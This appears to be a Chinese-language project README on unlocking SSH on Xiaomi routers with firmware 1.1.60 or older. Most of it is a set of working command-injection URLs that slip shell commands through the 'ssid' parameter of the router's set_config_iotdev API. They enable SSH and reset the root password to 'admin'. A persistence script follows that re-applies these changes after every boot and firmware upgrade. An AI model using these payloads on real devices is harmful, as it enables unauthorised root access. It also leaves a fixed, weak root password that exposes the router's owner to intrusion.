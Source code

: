 ## 用法
1. 确保路由器版本为 1.1.60 或以下。
2. 登录获取`TOKEN`.
3. 编辑`payload url`并执行.
4. SSH已启用. 登录用户名为 `root` 密码为 `admin`.

## Payload Url
```
http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0anvram%20set%20ssh_en=1%0anvram%20commit%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0aecho%20sed%20-i%20's/channel=.*/channel="debug"/g'%20/etc/init.d/dropbear%20>%20/tmp/r.sh%0ash%20/tmp/r.sh%0arm%20/tmp/r.sh%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0a/etc/init.d/dropbear%20start%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0a/etc/init.d/dropbear%20enable%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0aecho%20echo%20-e%20"admin\nadmin"%20|%20passwd%20root%20>%20/tmp/pass.sh%0ash%20/tmp/pass.sh%0arm%20/tmp/pass.sh%0a
```

## 固化SSH
1. 在 /etc/firewall.user 文件中，添加一句 source /etc/basic_settings/basefile.sh
```
echo -e "\nsource /etc/basic_settings/basefile.sh" >> /etc/firewall.user
```
2. 创建 basic_settings 文件夹、basefile.sh 文件、my_script.sh 文件
```
mkdir /etc/basic_settings
touch /etc/basic_settings/basefile.sh
touch /etc/basic_settings/my_script.sh
chmod 755 /etc/basic_settings/basefile.sh
chmod 755 /etc/basic_settings/my_script.sh
```
3. 编辑 /etc/basic_settings/basefile.sh 填写以下内容
```
#!/bin/sh
echo "source /etc/basic_settings/my_script.sh; exit 0" > /etc/rc.local
```
4. 编辑 /etc/basic_settings/my_script.sh 填写以下内容
```
#!/bin/sh

#check ssh 
ver_flag="$(uci -c /usr/share/xiaoqiang get xiaoqiang_version.version.CHANNEL)"
if [ "$(nvram get ssh_en)" != "1" -o "$ver_flag" == "release" ]; then
    echo "$(date) : 本次开机ssh_en被关闭或者版本标记被重置，您可能进行了固件升级。" >> /tmp/my_log.txt 
    nvram set ssh_en=1
    nvram commit
    uci -c /usr/share/xiaoqiang set xiaoqiang_version.version.CHANNEL='stable'
    uci -c /usr/share/xiaoqiang commit xiaoqiang_version.version
    echo "$(date) :已重新开启ssh_en，并设置版本标记为stable。" >> /tmp/my_log.txt 
    /etc/init.d/dropbear enabled
    if [ $? == "1" ]; then
        echo "$(date) :dropbear开机自启动被关闭，现重新开启。" >> /tmp/my_log.txt 
        /etc/init.d/dropbear enable
    fi
    /etc/init.d/dropbear restart
    echo -e "admin\nadmin" | passwd root
    echo "$(date) :已将root密码重置为 admin" >> /tmp/my_log.txt 
fi
```
注：版本标记设置为 stable，路由器就会认为是 开发版。release -> 稳定版、current -> 内测版。

## 参考链接
* [解锁京东云 Redmi AX5 ssh](https://m1ku.in/archives/783)
* [关于小米路由器升级系统保留SSH的简单方法](https://icode.best/i/10101345505777)
